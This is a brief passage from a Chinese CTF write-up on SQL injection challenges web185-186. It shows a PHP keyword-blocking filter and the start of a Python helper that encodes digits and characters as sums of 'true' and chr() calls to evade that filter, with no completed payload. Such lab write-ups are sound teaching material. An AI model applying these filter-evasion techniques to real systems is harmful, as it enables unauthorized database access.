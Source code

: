 ![](.\SQL注入\web184\web184.png)



### web185-186

```
  function waf($str){
    return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|[0-9]|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
  }
```

数字被过滤了，需要构造。

```
import requests
import sys

def createNum(n):
    num = "true"
    if n == 1:
        return "true"
    else:
        for i in range(n - 1):
            num += "+true"
    return num


def createstrNum(m):
    _str = ""
    for j in m:
        _str += ",chr(" + createNum(ord(j)) + ")"
    return _str[1:]


```
